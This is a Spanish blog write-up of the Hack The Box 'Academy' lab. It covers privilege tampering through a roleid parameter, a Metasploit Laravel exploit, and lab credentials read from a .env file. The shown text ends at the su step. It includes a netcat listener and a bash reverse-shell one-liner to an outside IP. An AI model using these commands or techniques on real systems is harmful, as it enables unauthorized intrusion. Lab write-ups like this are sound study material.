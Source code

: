 ```yaml
---
layout: single
title: Academy - Hack The Box
excerpt: "Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root."
date: 2021-03-07
classes: wide
header:
  teaser: /assets/images/Academy-Hackthebox/academy.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Academy-Hackthebox/academy.png)

Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root.

## Escaneo de puertos

![](/assets/images/Academy-Hackthebox/nmap.png)

Puertos 22,80 y 33060 abiertos.
Empiezo por el 80. Accedo con el navegador a la ip 10.10.10.215 y me dice que no se puede abrir la página.
Veo que en el escaneo con nmap aparece el dominio academy.htb, lo añado al fichero hosts y ya me deja acceder con el nombre del dominio.

![](/assets/images/Academy-Hackthebox/web.png)

Lanzo gobuster para fuzzear los directorios y ficheros de la web.

![](/assets/images/Academy-Hackthebox/gobuster.png)

Mientras tanto me registro en la página y capturo la petición con burpsuite.
Veo que los parámetros que viajan en la petición son:
uid=ximo&password=ximo&confirm=ximo&roleid=0
Me llamala atención el parámetro roleid. Envío la petición al repeater y modifico el valor a 1.
Gobuster descubre una página que se llama admin.php, así que pruebo el usuario que he registrado con el roleid=1 y accedo como admin.

![](/assets/images/Academy-Hackthebox/admin.png)

Gobuster encuentra también un fichero readme dentro del directorio academy, que dice que se está usando un framework llamado laravel.

Me llama la atención esto : Fix issue with dev-staging-01.academy.htb
Lo añado al fichero hosts y accedo a la página.

![](/assets/images/Academy-Hackthebox/dev.png)

Sabiendo que el frameowrk usado es laravel empiezo a buscar vulnerabilidades relacionadas con este framework.
Encuentro un exploit para metasploit y decido usarlo.
Seteo el app_key, que me lo da la web del subdominio en la sección de environment, el rhosts academy.htb, lhost tun0 y vhost dev-staging-01.academy.htb y obtengo una shell.

![](/assets/images/Academy-Hackthebox/msf.png)

Me pongo a la escucha con rlwrap nc -lvnp 9001 y me lanzo una reverse shell para estar más cómodo
`bash -c 'bash -i >& /dev/tcp/10.10.14.191/9001 0>&1'`

Voy al directorio academy y con ls -a veo que hay un fichero .env que puedo leer y que contiene unas credenciales.

![](/assets/images/Academy-Hackthebox/creds.png)

En el directorio home hay varios usuarios, pruebo la contraseña con todos y hay uno que funciona.

`su cry0l1t3<br>
Password: mySup3rP4s5w0rd!!`
